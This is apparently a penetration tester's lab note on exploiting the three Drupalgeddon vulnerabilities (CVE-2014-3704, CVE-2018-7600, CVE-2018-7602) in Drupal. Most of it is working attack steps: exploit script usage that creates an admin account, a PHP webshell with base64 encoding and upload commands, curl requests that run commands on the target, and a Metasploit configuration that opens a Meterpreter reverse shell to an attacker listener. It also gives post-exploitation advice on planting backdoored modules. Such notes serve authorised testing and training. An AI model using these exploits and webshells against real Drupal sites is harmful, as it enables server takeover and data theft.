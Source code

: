 ## Drupal – Drupalgeddon Exploits
## 1. Drupalgeddon (CVE-2014-3704)

### Vulnerability

- Type: Pre-auth SQL injection in user login form    
- Affected: Drupal 7.0 – 7.31 (fixed in 7.32)
- Impact: Add admin user or inject RCE payload
### Exploit Script: `drupalgeddon.py`
#### Usage:

```bash
python2.7 drupalgeddon.py -t http://<target> -u hacker -p pwnd
```
#### Output:

```
[!] VULNERABLE!
[!] Administrator user created!
[*] Login: hacker
[*] Pass: pwnd
```
#### Post-Exploitation:

- Login at `/user/login`    
- Confirm admin access at `/admin/people`
- Leverage admin to:
    - Enable PHP Filter
    - Upload backdoored module
    - Use existing shell mechanisms        
#### Alternative:

- Metasploit module:    

```
exploit/multi/http/drupal_drupageddon
```
## 2. Drupalgeddon2 (CVE-2018-7600)

### Vulnerability

- Type: Unauthenticated RCE via form input injection    
- Affected: Drupal < 7.58, < 8.5.1
- Impact: Upload arbitrary PHP script    
### PoC Script: `drupalgeddon2.py`
#### Confirm Vulnerability:

```bash
python3 drupalgeddon2.py
```

Input:

```
Target URL: http://<target>
```

Check uploaded file:

```bash
curl http://<target>/hello.txt
```
#### Upload Webshell (Manual Step):

```php
<?php system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']); ?>
```

Convert to Base64:

```bash
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]); ?>' | base64
# → PD9waHAgc3lzdGVtKCRfR0VUW2Zl...
```

Decode and save:

```bash
echo "<base64>" | base64 -d | tee mrb3n.php
```

Modify PoC to upload `mrb3n.php`, then confirm execution:

```bash
curl http://<target>/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
#### Output:

```
uid=33(www-data) gid=33(www-data)
```
## 3. Drupalgeddon3 (CVE-2018-7602)
### Vulnerability

- Type: Authenticated RCE via Form API
- Affected: Drupal 7.x and 8.x    
- Requires: Valid session cookie + node deletion privilege
### Exploit: Metasploit
#### Prerequisites:

- Valid login → retrieve session cookie (e.g., via Burp)    
- Node ID (e.g., `1` from `/node/1`)
#### Configuration:

```bash
use exploit/multi/http/drupal_drupageddon3
set RHOSTS 10.129.42.195
set VHOST drupal-acc.inlanefreight.local
set DRUPAL_SESSION SESS<sessionid>=<value>
set DRUPAL_NODE 1
set LHOST 10.10.14.15
set LPORT 4444
```
#### Execute:

```bash
exploit
```
#### Output:

```
[*] Meterpreter session 1 opened
meterpreter > getuid
Server username: www-data (33)
```
## Summary: Drupalgeddon Vulnerabilities

| CVE           | Name          | Access          | Affected Versions | Exploit Type       |
| ------------- | ------------- | --------------- | ----------------- | ------------------ |
| CVE-2014-3704 | Drupalgeddon  | Unauthenticated | 7.0 – 7.31        | SQLi → Admin/RCE   |
| CVE-2018-7600 | Drupalgeddon2 | Unauthenticated | < 7.58, < 8.5.1   | RCE via form input |
| CVE-2018-7602 | Drupalgeddon3 | Authenticated   | Drupal 7.x, 8.x   | RCE via Form API   |
## Reporting Checklist

| Item            | Description                                                    |
| --------------- | -------------------------------------------------------------- |
| Created Users   | `hacker:pwnd` (CVE-2014-3704)                                  |
| Uploaded Shells | `mrb3n.php`, Base64-decode, path, timestamp                    |
| Artifacts       | `.php` files, modules, filters enabled                         |
| Cleanup         | Delete created admin, shell files, disable PHP Filter          |
| Session Details | If Drupalgeddon3 used, include session cookie and node ID used |
# Tags
> #Exploitation #Application-Exploitation #Drupal 